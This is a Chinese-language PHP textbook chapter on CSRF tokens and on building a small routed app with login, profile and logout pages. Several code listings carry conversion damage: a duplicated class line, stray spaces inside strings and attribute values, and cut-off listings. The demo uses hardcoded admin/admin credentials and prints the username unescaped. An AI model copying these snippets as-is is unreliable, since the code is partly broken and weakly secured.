    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        if (!array_key_exists('csrf-token', $_POST)) {
            echo '<p>ERROR: The CSRF Token was not found in POST payload.          </p>';
        } elseif ($_POST['csrf-token'] !== $_SESSION['csrf-token']) {
            echo '<p>ERROR: The CSRF Token is not valid.</p>';
        } else {
            echo '<p>OK: The CSRF Token is valid. Will continue with email           validation...</p>';
        }
    }
    ```

    首先，检查输入数据中 CSRF 令牌的存在：`array_key_exists('csrf-token', $_POST)`。第二个检查将比较发送的数据与当前用户的会话数据中存储的数据：`$_POST['csrf-token'] === $_SESSION['csrf-token']`。如果这两个条件中的任何一个失败，则将显示适当的错误消息。否则，将打印成功消息。

1.  最后，打印测试表单。它应包含一个虚拟的 `email` 输入。我们将在表单中添加三个提交按钮。第一个按钮将使表单仅提交电子邮件数据。第二个按钮将使表单发送空值的 `"csrf-token"`。最后，第三个按钮将使表单发送存储在 *当前* 会话中的 `"csrf-token"` 的值。以下是执行此操作的代码：

    ```php
    <form method="post">
        <label for="email">New email:</label><br>
        <input type="text" name="email" id="email" value=""><br>
        <button type="submit">Submit without CSRF Token</button>
        <button type="submit" name="csrf-token">Submit with empty/invalid       CSRF Token</button>
        <button type="submit" name="csrf-token" value="      <?php echo $_SESSION['csrf-token'] ?>">Submit with CSRF Token
        </button>
    </form>
    ```

    注意

    最终脚本可参考 [`packt.live/2B6Z7Pj`](https://packt.live/2B6Z7Pj)。

1.  打开 `http://127.0.0.1:8080/form-csrf.php` 上的文件。

    你应该在浏览器中看到类似以下内容：

    

    图 6.31：首次访问 form-csrf.php

1.  点击“`不使用 CSRF 令牌提交`”按钮。输出将如下所示：

    图 6.32：未找到令牌

1.  点击“`使用空/无效 CSRF 令牌提交`”按钮。输出将如下所示：

    图 6.33：找到了令牌，但无效

1.  点击“`使用 CSRF 令牌提交`”按钮。输出将如下所示：


图 6.34：找到并验证了令牌

如前所述输出所示，我们已经成功生成并提交了一个 CSRF 令牌，从而保护应用程序和用户数据免受 CSRF 攻击。

## 构建应用程序（启动示例）

如前所述，将业务逻辑与表示层和其他应用程序组件分离是一种良好的实践，这样做可以简化应用程序的开发和维护，并使应用程序更不容易出现安全问题。

本章提供了一个非常简单的应用程序结构示例，仅为了展示您如何为应用程序实现一个入口点，路由请求并执行适当的业务逻辑，同时打印一个完整的 HTML 页面。

在接下来的练习中，我们将使用最佳开发实践来构建一个应用程序。然而，在我们这样做之前，让我们回顾一下在构建我们的网页时将使用的基本目录结构。在项目根目录中，有两个目录：`src/`和`web/`。

### web/

这是包含 HTTP 请求单入口点文件的服务器文档根目录：`index.php`。这个目录下的每个文件都可以通过服务器访问（除非使用了特定的服务器配置来阻止访问该目录内的某些位置）。

注意

服务器将在这个目录中启动，而不是父目录（`/app`）。

这种方法用于防止随机脚本文件访问 WWW，这可能导致各种后果（如数据安全和服务可用性），并通过减少入口点到一个来简化应用程序的维护。

`index.php`：这个文件负责接受所有 HTTP 请求并生成和返回 HTTP 响应；它包含应用程序的所有必要脚本文件，并执行特定任务以实现其目的（例如，返回 HTTP 响应）。

### src/

这是包含应用程序业务逻辑和表示文件的目录；脚本文件按操作类型分组（例如表示、处理程序和高级组件）。这个目录不对 WWW 公开；然而，由于它们包含在`web/index.php`中，因此每个请求都会运行这些脚本，这意味着它们间接地暴露给了用户输入。因此，任何类型的输入验证都是必不可少的。

`src/`目录包含三个子目录：`components/`、`handlers/`和`templates/`。这些目录的详细信息如下：

### components/

`Router.php`：`Router`组件负责选择一个处理程序（即类名）进行实例化并返回它。本质上，它将 URI 路径与处理程序类匹配（例如，`/login`将返回`\Handlers\Login`实例）。

`Template.php`：`Template`组件负责从`templates`目录加载和渲染模板，并返回 HTML 内容。

### handlers/

此目录包含处理 HTTP 请求并生成响应数据的脚本，其中包含具有类的脚本。此目录有一个抽象的 `Handler` 类，它实现了一些常用功能，这些功能将由实际处理程序扩展。之前列出的处理程序旨在涵盖身份验证（`Login.php`）、保护个人资料页面、注销任何会话（`Logout.php`）以及保护个人资料页面显示（`Profile.php`）。

### templates/

如其名所示，`templates` 目录包含模板文件（或演示文件）。这些文件主要包含 HTML，并且几乎没有 PHP 逻辑。

在构建应用程序时，我们需要确保有一个单一的入口点，如下面的图所示：

![图 6.35：通过 HTTP 请求间接暴露 Web 目录和访问脚本]

![图片 C14196_06_35.jpg]

![图 6.35：通过 HTTP 请求间接暴露 Web 目录和访问脚本]

此入口点是唯一一个暴露给用户请求的。用户请求被导入到 Web 目录脚本中，以便没有脚本可以通过 HTTP 请求直接访问。这提供了一种针对恶意请求的安全措施。

在前面的章节中，我们描述了构建 Web 应用程序的一些最佳实践。让我们将这些实践付诸行动，在接下来的练习中构建一个应用程序。

## 练习 6.10：构建应用程序：主页

在这个练习中，你将构建一个遵循 PHP 良好开发实践的应用程序，通过将应用程序结构化为处理特定任务的独立组件。更具体地说，我们将构建一个单页面的网站——即主页，我们将使用 HTML 来结构化和在浏览器页面上渲染内容；CSS 来“美化”页面内容；当然，PHP 来处理所有传入的请求并向浏览器发送适当的响应。

请确保当前运行的服务器已停止，并创建一个新的目录，该目录将用于构建你的第一个应用程序。以下所有内容都将考虑刚刚创建的工作目录。在我的情况下，我将使用 `/app` 目录作为工作目录，你将在后面的示例中注意到这一点。以下是执行练习的步骤：

1.  创建以下目录结构和文件：![图 6.36：应用程序的目录结构]

    ![图片 C14196_06_36.jpg]

    ![图 6.36：应用程序的目录结构]

    **我们从哪里开始？**

    正如使用任何工具或框架时的情况一样，让我们从最低要求开始，这样我们就可以在之后逐步添加更多内容。由于我们正在部署一个 Web 应用程序，让我们设置基本视图；也就是说，在每个页面上重复出现的模板。

1.  创建一个 `main.php` 模板文件。

    在这个文件中，我们希望包含一个网页的有效 HTML 模板；因此，我们将包括一些基本元素，例如`doctype`声明；HTML 的`root`标签；一个包含特定标签的`head`块（例如，`title`），以及一个`body`块，其中我们添加了一个带有网站标题（`Learning PHP`）和两个链接的水平导航栏，链接分别是`Home`（`/`路径）和`Profile`（`/profile`路径）；以及主容器，其他页面的输出将在这里渲染。在这个模板文件中，我们将查找`$title`（`echo($title ?? '(no title)');`）和`$content` PHP 变量，如果找到，我们将渲染它们（`if (isset($content)) echo $content;`）。这个模板将包括 Bootstrap CSS 框架的 CSS 样式，这使得网站看起来更美观而无需任何努力。我们选择了 Bootstrap v4 用于页面显示风格化，但还有很多其他选择，你应该检查并选择你认为最适合你的一个。类似 Foundation、Jeet、Pure 和 Skeleton 这样的替代品与 Bootstrap 做类似的工作。通常，人们更倾向于使用轻量级的库，而不是像 Bootstrap 这样的大型框架的众多工具。

1.  输入以下代码以包含之前提到的信息：

    ```php
    main.php
    1 <!doctype html>
    2 <html lang="en">
    3 <head>
    4     <meta charset="utf-8">
    5     <meta name="viewport" content="width=device-width, initial-scale=1,        shrink-to-fit=no">
    6     <title><?php echo($title ?? '(no title)'); ?></title>
    7     <link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/        bootstrap.min.css" rel="stylesheet">
    8 </head>
    https://packt.live/2Nfdqad
    ```

    `main.php`模板包含将在每个页面上渲染的网站 HTML 骨架。

    现在，为了相应地渲染这个文件，我们需要一个组件来加载模板文件，创建预期的变量（如果提供），然后创建准备在浏览器上显示的纯 HTML 输入。我们将使用`\Components\Template`类（即`src/components/Template.php`文件）来完成这个任务。每个模板的一个常见特性是它们存储的目录，因此我们可能希望将此参数保存在一个静态变量中。

1.  将存储模板的目录保存在静态的`$viewsPath`变量中：

    ```php
    public static $viewsPath = __DIR__ . '/../templates';
    ```

1.  模板文件的完整路径对每个模板是唯一的。因此，我们希望每个模板都包含它自己的所需`path`属性。以下是实现这一点的代码：

    ```php
    private $name;
    public function __construct(string $name)
    {
        $this->name = $name;
    }
    private function getFilepath(): string
    {
        return self::$viewsPath . DIRECTORY_SEPARATOR . $this->name . '.php';
    }
    ```

    注意

    由于所有表示文件都包含`.php`扩展名，我们不会在路径名称中包含它；在这种情况下，一个名为`\Components\Template`的文件将自动将"`.php`"添加到模板名称中，并解析`src/templates/main.php`文件。

1.  使用提供的关联数组数据渲染模板内容。

    我们已经有了视图路径和模板名称，现在我们需要一个方法（让我们称它为`render()`）来渲染文件，导入变量。我们将使用内置的`extract()`函数将变量从数据数组（`extract($data, EXTR_OVERWRITE);`）导入到当前符号表中。这意味着如果`$data = ['name' => 'John'];`，`extract()`函数将导入具有值`John`的`$name`变量。然后，我们包含模板文件以渲染内容，由于我们目前不想向用户输出（我们只想渲染模板），我们将使用`ob_start()`和`ob_get_clean()`输出控制函数来开始输出缓冲，获取内容，并清理当前缓冲区。然后，该方法将返回渲染的内容：

    ```php
    function render(array $data = []): string
    {
        extract($data, EXTR_OVERWRITE);
        ob_start();
        require $this->getFilepath();
        $rendered = ob_get_clean();
        return (string)$rendered;
    }
    ```

    注意

    `Template.php`中的最终脚本可以在此处参考[`packt.live/35D34t9`](https://packt.live/35D34t9)。

1.  让我们看看现在是否能在浏览器中获取输出。由于`index.php`是唯一通过 Web 服务器访问的文件，让我们打开并添加打印第一个 HTML 页面的需求。首先，我们想要包含模板组件并实例化`main`模板：

    ```php
    require_once __DIR__ . '/../src/components/Template.php';
    $mainTemplate = new \Components\Template('main');
    ```

    我们将在`$templateData`关联数组中放置一个网站标题，并使用它来调用模板实例的`render()`方法，这样关联数组中的`title`条目就会成为`main.php`文件中的`$title`变量：

    ```php
    $templateData = [
        'title' => 'My main template',
    ];
    echo $mainTemplate->render($templateData);
    ```

1.  在`./web`目录中启动 PHP 内置的 Web 服务器，`php -S 127.0.0.1`，并访问主页`http://127.0.0.1:8080/`。

    输出应该看起来像这样：


图 6.37：主页

在没有特定文件名的情况下访问服务器文档根，PHP 内置服务器将自动查找`index.php`文件（因此访问`http://127.0.0.1:8080/`等同于`http://127.0.0.1:8080/index.php`）。在 NGINX 和 Apache 等不同服务器上的生产设置中也会进行类似的配置。在这个阶段，点击任何链接都会始终显示主模板。

注意

前面图中可以看到的`/app`目录是我放置`src`和`web`目录的目录。

目前，点击`Profile`按钮（即`/profile` URI 路径）将使相同的模板渲染。实际上，任何 URI 路径都会使相同的`main`模板渲染。现在，我们可能想添加一些逻辑并打印不同的模板用于我们的个人资料页面。为此，我们应该在传递给`\Components\Template::render()`方法的关联数组中提供`content`数据。作为一个回顾，`\Components\Template::render()`方法将导入`content`数组键，并将其作为`$content`变量提供，该变量将在`main`模板中渲染（记住`main`模板中的`if (isset($content)) { echo $content; }`部分）。

为每个 URI 路径返回特定的模板内容（通过检查 `$_SERVER['PATH_INFO']` 的值）是有意义的，而且由于返回的页面通常包括动态或变化的内容，我们需要一个 *地方* 来处理我们提供给 `\Components\Template::render()` 方法的所有数据。为此，我们将使用请求处理器；即存储在 `src/handlers/` 目录中的类。为了回顾，对于每个请求，脚本必须为 URI 路径分配一个处理器类，而处理器类负责处理请求并将内容返回到 `main` 模板（你可以通过使用 `Template` 组件或直接返回字符串来实现）。

在上一个练习中，我们构建了应用程序的主页。现在，我们将继续在下一个练习中构建我们的应用程序。

## 练习 6.11：构建应用程序：个人资料页面和登录表单

在这个练习中，我们将设置处理器的一般功能并创建抽象类 `\Handlers\Handler`，它将由实际处理器扩展。我们将其声明为抽象的，因为我们不希望它被实例化，而是被扩展。它的目的是定义一些共同的功能，例如返回页面标题或为 HTTP 响设置重定向请求，但也要求每个处理器类实现负责请求处理的方法——我们将简单地称它为 `handle()`。

1.  保存 `src/handlers/Handler.php` 文件内容，它应该看起来像这样：

    ```php
    Handler.php
    1  <?php
    2  declare(strict_types=1);
    3  
    4  namespace Handlers;
    5  
    6  abstract class Handler
    7  abstract class Handler
    8  {
    9      private $redirectUri = '';
    10     abstract public function handle(): string;
    11
    12     public function getTitle(): string
    13     {
    14         return 'Learning PHP';
    15     }
    https://packt.live/2PahU4c
    ```

1.  要访问个人资料页面，我们需要一个经过认证的用户；因此，让我们构建登录表单和认证逻辑。将以下代码添加到 `Login` 处理器中：

    ```php
    <?php
    declare(strict_types=1);
    namespace Handlers;
    class Login extends Handler
    {
        public function handle(): string
        {
            return (new \Components\Template('login-form'))->render();
        }
    }
    ```

    `\Handlers\Login` 处理器执行的操作是实现 `handle()` 方法，这是必须的，因为它扩展了 `\Handlers\Handler` 抽象类。在 `handle()` 方法中，我们返回渲染的 "l`ogin-form`" 模板。

1.  如其名所示，"`login-form`" 模板将包含登录表单的 HTML 标记。我们在这里想要的是一个表单标题，例如 "`Authentication`"，以及 "`username`" 和 "`password`" 输入框及其标签，还有提交按钮。由于凭证不应出现在浏览器的地址栏中，我们选择的表单方法是 `POST`。如果表单提交但数据验证因某些原因失败，之前输入的用户名将自动显示在 `username` 字段中（`<?= htmlentities($formUsername ?? '') ?>`）。另外，当认证失败时，原因将在特定字段下方，在一个具有 `invalid-feedback` CSS 类的 `div` 元素中显示。

    让我们将 `login-form` 模板保存到 `src/templates/login-form.php` 文件中：

    ```php
    login-form.php
    1 <div class="d-flex justify-content-center">
    2     <form method="post" action="/login" style="width: 100%;         max-width: 420px;">
    3         <div class="text-center mb-4">
    4             <h1 class="h3 mb-3 font-weight-normal">Authenticate</h1>
    5             <p>Use <code>admin</code> for both username and password.</p>
    6         </div>
    https://packt.live/2MA0dtk
    ```

    注意，我们使用 `htmlentities()` 来转义包含随机、动态数据（如用户输入）的变量的输出。

1.  我们已经有了`Login`处理程序和`login-form`模板。我们现在需要为`/login`路径运行该处理程序。由于我们还将添加更多类似规则（例如，为`/profile`路径运行`Profile`处理程序），将此功能组合到特定组件中是有意义的。我们将使用`\Components\Router`组件来完成此目的。这个`Router`组件将确切地执行根据 URI 路径（`$_SERVER['PATH_INFO']`值）将传入请求路由到特定处理程序的操作。这可以通过使用`switch`语句简单地实现。所有这些逻辑都将放入唯一的一个名为`getHandler()`的方法中：

    ```php
    // src/components/Router.php
    public function getHandler(): ?Handler
    {
        switch ($_SERVER['PATH_INFO'] ?? '/') {
            case '/login':
                return new Login();
            default:
                return null;
        }
    }
    ```

1.  现在我们可以使用`index.php`文件（应用程序的入口点）中的路由器实例来获取当前请求的处理程序或`null`。当返回非空值时，我们可以使用`Handlers\Handler::handle()`方法处理请求，检查重定向请求，获取页面标题，并为`main`模板设置适当的数据（即内容和标题）：

    ```php
    // web/index.php
    $router = new \Components\Router();
    if ($handler = $router->getHandler()) {
        $content = $handler->handle();
        if ($handler->willRedirect()) {
            return;
        }
        $templateData['content'] = $content;
        $templateData['title'] = $handler->getTitle();
    }
    ```

1.  现在，当有人输入一个 URI 路径，该路径不在`\Components\Router::getHandler()`方法的`switch`语句中列出（通常是因为拼写错误）时，它将使该方法返回`null`，这将导致`main`模板使用默认内容（`Hello world`块）进行渲染。我们不应允许这种行为，因为我们的网站页面被搜索引擎索引，并被标记为重复内容。我们可能希望显示一个`404 - Not found`错误页面，或者重定向到现有页面，例如主页。我们将选择使用`/`路径重定向到主页：

    ```php
    Router.php
    12 public function getHandler(): ?Handler
    13 {
    14     switch ($_SERVER['PATH_INFO'] ?? '/') {
    15         case '/login':
    16             return new Login();
    17         case '/':
    18             return null;
    19         default:
    20             return new class extends Handler
    21             {
    22                 public function handle(): string
    23                 {
    24                     $this->requestRedirect('/');
    25                     return '';
    26                 }
    https://packt.live/32F56qK
    Router.php
    1 <?php declare(strict_types=1);
    2 
    3 namespace Components;
    4 
    5 use Handlers\Handler;
    6 use Handlers\Login;
    7 use Handlers\Logout;
    8 use Handlers\Profile;
    https://packt.live/35Ycxem
    ```

1.  当`web/index.php`将变为以下内容：

    ```php
    <?php
    declare(strict_types=1);
    require_once __DIR__ . '/../src/components/Template.php';
    require_once __DIR__ . '/../src/components/Router.php';
    require_once __DIR__ . '/../src/handlers/Handler.php';
    require_once __DIR__ . '/../src/handlers/Login.php';
    $mainTemplate = new \Components\Template('main');
    $templateData = [
        'title' => 'My main template',
    ];
    $router = new \Components\Router();
    if ($handler = $router->getHandler()) {
        $content = $handler->handle();
        if ($handler->willRedirect()) {
            return;
        }
        $templateData['content'] = $content;
        $templateData['title'] = $handler->getTitle();
    }
    echo $mainTemplate->render($templateData);
    ```

1.  让我们看看到目前为止我们有什么。在浏览器中访问`http://127.0.0.1:8080/login` URL；输出应该看起来像这样：![图 6.38：登录页面

    ![img/C14196_06_38.jpg]

    图 6.38：登录页面

    在这里，我们有一个看起来很不错的登录表单，但到目前为止还没有任何功能。让我们在`\Handlers\Login`处理程序类中添加一些功能。

1.  首先，我们需要存储用户名和密码，由于我们将在下一章学习数据持久性，让我们直接在 PHP 脚本中定义这些值：

    ```php
    $username = 'admin';
    $passwordHash = '$2y$10$Y09UvSz2tQCw/454Mcuzzuo8ARAjzAGGf8OPGeBloO7j47Fb2v.  lu'; // "admin" password hash
    ```

    注意，出于安全原因，我们不存储明文密码，而且永远不应该这样做。此外，一个好的做法是避免将密码散列添加到`password_hash()`中，该函数需要密码字符串作为第一个参数，并将散列算法作为第二个参数的整数。盐由`password_hash()`函数自动生成，并用于使用`bcrypt`算法获取密码散列。使用 PHP 立即获取密码散列非常简单，只需在终端运行一段简短的内联代码：`php -r "echo password_hash('admin', PASSWORD_BCRYPT), PHP_EOL;"`。

1.  在 `POST` 请求的情况下，我们必须验证登录尝试；因此，我们应该执行用户名和密码匹配。如果有用户名或密码不匹配，错误将被添加到 `$formError` 关联数组中的 `username` 键（在用户名不匹配的情况下），以及 `password` 键（在密码不匹配的情况下）。为了验证密码匹配，我们将使用 `password_verify()` 内置函数，它需要明文密码作为第一个参数，密码哈希作为第二个参数；如果匹配，则返回 `TRUE`，否则返回 `FALSE`：

    ```php
    $formUsername = $_POST['username'] ?? '';
    $formPassword = $_POST['password'] ?? '';
    if ($formUsername !== $username) {
        $formError = ['username' => sprintf('The username [%s] was not       found.', $formUsername)];
    } elseif (!password_verify($formPassword, $passwordHash)) {
        $formError = ['password' => 'The provided password is invalid.'];
    }
    ```

1.  表单错误和提交的表单用户名将在 `render()` 方法中发送到模板：

    ```php
    return (new \Components\Template('login-form'))->render([
        'formError' => $formError,
        'formUsername' => $formUsername ?? ''
    ]);
    ```

1.  如果用户名和密码匹配，则将用户名和登录时间添加到会话数据中，然后重定向到配置文件页面：

    ```php
    $_SESSION['username'] = $username;
    $_SESSION['loginTime'] = date(\DATE_COOKIE);
    $this->requestRedirect('/profile');
    ```

    注意

    为了使用 `$_SESSION` 超全局变量，必须首先启动会话，因此我们必须在较高层级的地方执行它，因为我们可能需要在应用程序的其他地方使用会话数据，而不仅仅是 `Login` 处理器。我们将在 `web/index.php` 文件中 `require_once` 语句列表之后添加 `session_start();`。

1.  我们也可以在 `\Handlers\Login::handle()` 方法一开始就检查会话用户名是否已经设置（即，是否已经进行了认证）以防止登录表单显示另一个登录尝试正在进行，如果是这样，则将用户重定向到主页：

    ```php
    if (isset($_SESSION['username'])) {
        $this->requestRedirect('/');
        return '';
    }
    ```

    注意

    到目前为止，我们已经完成了 `Login` 处理器的逻辑，内容可以参考 [`packt.live/2OJ9KzA`](https://packt.live/2OJ9KzA)。

1.  我们现在已经有了登录表单和认证功能；让我们通过添加受保护的配置文件页面来继续。由于只有经过认证的用户才能访问此页面，我们将检查会话数据中的 `username` 条目。当没有用户认证时，我们将显示登录表单（在 `\Handlers\Profile` 处理器中执行此操作）：

    ```php
    if (!array_key_exists('username', $_SESSION)) {
        return (new Login)->handle();
    }
    ```

    换句话说，当用户未认证时，`/login` 页面将在 `/profile` 页面中渲染。

    注意

    在会话数据中检查 "`username`" 条目，在这个例子中，是我们判断用户是否登录的一种方式，这并不像它本来的那样安全和有用。如今，使用开源解决方案来处理认证是一个更好的替代方案，因为会话登录数据包含更多信息，例如登录方法、时间、哈希算法、令牌、有效期以及其他可能有用的数据，这些数据用于验证认证。

1.  否则，如果我们有一个经过认证的用户，我们将渲染并返回 `profile` 模板，将用户名和会话数据提供给模板的 `render()` 方法：

    ```php
    return (new \Components\Template('profile'))->render([
        'username' => $_SESSION['username'],
        'sessionData' => var_export($_SESSION, true)
    ]);
    ```

1.  此外，让我们通过扩展父类中的 `getTitle()` 方法来添加 Profile 页面的标题。新标题将包括在父类提供的默认标题之前添加的单词 Profile：

    ```php
    public function getTitle(): string
    {
        return 'Profile - ' . parent::getTitle();
    }
    ```

1.  保存 `src/handlers/Profile.php` 文件；完整内容应如下所示：

    ```php
    Profile.php
    1  <?php
    2  declare(strict_types=1);
    3
    4  namespace Handlers;
    5
    6  class Profile extends Handler
    7  {
    8      public function handle(): string
    9      {
    10         if (!array_key_exists('username', $_SESSION)) {
    11             return (new Login)->handle();
    12         }
    https://packt.live/2MzC06l
    ```

1.  `profile` 模板将仅显示用户名和作为变量提供的会话数据，以及用于 `href` 属性的 `/logout` 值：

    ```php
    <section class="my-5">
        <h4>Welcome, <?= $username ?>!</h4>
    </section>
    <p>Session data: </p>
    <pre><code><?= $sessionData ?></code></pre>
    <hr class="my-5">
    <p><a href="/logout">Logout</a></p>
    ```

1.  `Logout` 处理器将重新生成会话 ID 并销毁当前会话的数据。此外，将在网站主页上请求重定向：

    ```php
    <?php
    declare(strict_types=1);
    namespace Handlers;
    class Logout extends Handler
    {
        public function handle(): string
        {
            session_regenerate_id(true);
            session_destroy();
            $this->requestRedirect('/');
            return '';
        }
    }
    ```

1.  我们需要在 `Router` 组件中添加 `Profile` 和 `Logout` 处理器：

    ```php
    Router.php
    1  <?php
    2  declare(strict_types=1);
    3
    4  namespace Components;
    5
    6  use Handlers\Handler;
    7  use Handlers\Login;
    8  use Handlers\Logout;
    9  use Handlers\Profile;
    10 
    11 class Router
    https://packt.live/2BAGrYp
    ```

1.  此外，应在 `web/index.php` 中包含 `src/handlers/Logout.php` 和 `src/handlers/Profile.php` 文件：

    ```php
    index.php
    1  <?php
    2  declare(strict_types=1);
    3
    4  require_once __DIR__ . '/../src/components/Template.php';
    5  require_once __DIR__ . '/../src/components/Router.php';
    6  require_once __DIR__ . '/../src/handlers/Handler.php';
    7  require_once __DIR__ . '/../src/handlers/Login.php';
    8  require_once __DIR__ . '/../src/handlers/Logout.php';
    9  require_once __DIR__ . '/../src/handlers/Profile.php';
    10 session_start();
    11 
    12 $mainTemplate = new \Components\Template('main');
    13 $templateData = [
    14     'title' => 'My main template',
    15 ];
    https://packt.live/35XZg5O8
    ```

    注意

    使用 `composer` 这样的工具来实现自动加载功能，或者任何其他实现 "`PSR-4: Autoloader`" 的方法，将使处理代码的加载变得更加容易。`composer` 的使用将在 *第九章*，*Composer* 中介绍。

1.  似乎一切都已经完成；让我们看看网站是如何工作的。从页眉中点击 `Profile` 链接。输出应该如下所示：

    图 6.39：Profile 页面，显示未认证用户的登录表单

1.  将用户名和密码都输入为 `admin`，然后点击 `Login` 按钮。你现在应该能够访问 Profile 页面了！

    图 6.40：Profile 页面，显示认证用户的登录信息

    点击 `Home`，然后返回 `Profile`，刷新页面。你会注意到会话在请求之间没有丢失。

1.  从 Profile 页面点击 `Logout` 链接。你应该会被重定向到主页。再次访问 Profile 页面将导致显示登录表单，如图 *图 6.39* 所示。

恭喜！你刚刚构建了你的第一个网站，这只是开始。在这个练习中，你根据代码的目的进行了代码拆分，你使用了诸如输入验证和输出转义等安全措施，并且使应用程序能够适当地响应任何 HTTP 请求。

## 活动 6.1：创建支持联系表单

你被要求在一个新的品牌网站上实现一个**支持联系表单**。该表单仅对认证用户可用，在个人资料页面上，认证部分也由你负责。将有两种类型的用户：标准和 VIP 级别。标准用户每天只能请求一次支持，而 VIP 用户则没有限制。表单将包含以下字段：回复应发送到的姓名和电子邮件以及消息。在注册之前，应清理和验证表单数据。规则如下：所有必填字段都应填写，使用有效的电子邮件地址，并且消息长度不应少于 40 个字符。

基本页面布局应如下所示：

![图 6.41：预期的页面布局

![img/C14196_06_41.jpg]

图 6.41：预期的页面布局

给定这些数据，我们继续进行。由于功能性和一些布局与之前的练习非常相似，我们可以使用那段代码作为起点，并根据我们的规格进行调整和添加。你可以将之前的练习中的代码复制到另一个目录中，以保留练习解决方案的副本，并在当前目录中继续工作，其中内置服务器已经启动。记录在案，我的当前工作目录是 `/app`。

注意

在开始之前，请确保通过在浏览器中访问 `http://127.0.0.1:8080/logout` URL 来注销你的当前会话。

执行此活动的步骤如下：

1.  编写代码以获取已登录用户的用户数据。

1.  实现 `\Handlers\Login::handle()` 方法以验证用户凭证。

1.  创建一个登录表单。你可以使用之前的练习中的代码；然而，确保你删除了凭证提示（例如管理员的用户名和密码）。

1.  创建个人资料页面。在这里，你应该从头开始构建 `src/templates/profile.php` 文件。首先，添加问候语和注销按钮。

1.  添加一个支持区域并将其分为两个相等的水平部分。

1.  创建一个符合以下规范的支撑联系表单：两个类型为 `text` 的输入框，用于姓名和电子邮件，以及一个用于消息的文本区域输入框。每个输入框都将有一个关联的 `<label>` 元素，如果存在错误，这些错误将打印在包含错误数据的输入框下方。

    注意

    你可以参考 Bootstrap 框架文档并使用 `alerts` 组件。

1.  编写代码以防止标准级别用户每天发送超过一个表单。再次提醒，你可以使用 Bootstrap 框架的 `alerts` 组件。

1.  通过生成和使用 CSRF 令牌来保护表单。

1.  在提交按钮上，我们可能还想添加更多表单数据，这样我们就可以确定在 PHP 脚本中必须处理哪个表单；当单个 HTML 页面上添加了许多表单，并且每个表单都向同一 URL 发送数据时，这非常有用。

1.  编写代码以显示消息列表历史记录。你可以选择`card`组件并打印所有消息详情。每个存储的历史条目将包含表单数据（即`form`键）和表单发送的时间（即`timeAdded`键）。

1.  编写代码以验证提交的表单，然后编写代码以在验证成功时刷新页面。

1.  输入代码以将以下数据发送到模板：用户名（问候语）、如果有表单错误，表单 CSRF 令牌，以及`sent`表单历史记录。

1.  在单独的方法中添加表单验证逻辑。

1.  在标准级用户的情况下检查多次提交。

1.  编写代码以在用户尝试提交空名称字段时显示错误消息。

1.  使用`filter_var()`函数和`FILTER_VALIDATE_EMAIL 验证`实现电子邮件验证。

1.  对于消息字段，编写代码以确保消息至少有 40 个字符长。

1.  收集清洗后的表单数据，并将其存储在`$form`变量中，然后与`$errors`变量一起返回。

1.  现在我们可以测试我们的完整实现。你可以通过访问`http://127.0.0.1:8080/profile`页面开始测试，并继续对所有页面上的所有字段进行测试。

    注意

    该活动的解决方案可以在第 520 页找到。

# 摘要

在本章中，你了解了一个 Web 应用程序的基本组件——应用程序的请求-响应周期。你解析了最常用的 HTTP 方法，现在你能够区分它们。你了解了数据安全、代码组织和推荐方法方面的最佳实践。你还可以执行数据清洗和验证，你知道如何在服务器上上传文件、验证用户和使用会话，以及其他事情。当然，你还学习了如何将所有示例引导到一个实用的成果——一个 Web 应用程序。

我们还没有完成。数据持久性在本章中被提及多次，并非徒劳。每个应用程序都使用数据持久性，它代表了应用程序存在的本质原因——收集、处理和存储数据。尽管我们在本章的练习中也存储了数据（例如，在会话或 cookie 中），但在下一章中，我们将讨论中长期的数据；也就是说，存储在文件和数据库中的数据。
